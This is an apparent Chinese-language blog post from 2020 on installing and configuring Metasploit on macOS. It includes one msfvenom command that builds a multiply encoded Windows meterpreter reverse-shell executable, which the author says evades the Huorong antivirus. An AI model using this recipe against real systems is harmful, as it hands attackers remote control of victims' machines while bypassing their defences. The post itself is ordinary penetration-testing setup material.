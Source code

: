 ```yaml
---
layout: post
title:  "Mac环境下msf环境部署"
date:   2020-07-04 12:32:45 +0100
categories:
---
```


# msf安装
Mac官网下载[https://osx.metasploit.com/metasploitframework-latest.pkg](https://osx.metasploit.com/metasploitframework-latest.pkg) 
Win官网下载[https://windows.metasploit.com/metasploitframework-latest.msi](https://windows.metasploit.com/metasploitframework-latest.msi)  

- Mac推荐安装brew，神器!  
# 环境配置  
- brew install ruby  //安装ruby
```
msf在Mac默认安装位置为/opt/metasploit-framework/  
添加PATH环境:export PATH=/opt/metasploit-framework/bin:$PATH  
执行msfconsole启动  //我习惯使用msf启动 可以使用alias将msfconsole设置别名为msf
```

# msfvenom使用  //可Bypass最新版火绒(已提交火绒安全)  
直接上命令  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.7.112 LPORT=1111 -f raw -e x86/shikata_ga_nai -i 8 | msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 10 -f exe -o 12345.exe
```  
刚开始在使用msfcenom的时候报错缺少依赖，提示bundle install，安装依赖后依旧无法使用，初步断定为电脑环境问题，随即重装恢复系统 //重装后安装msf一切正常  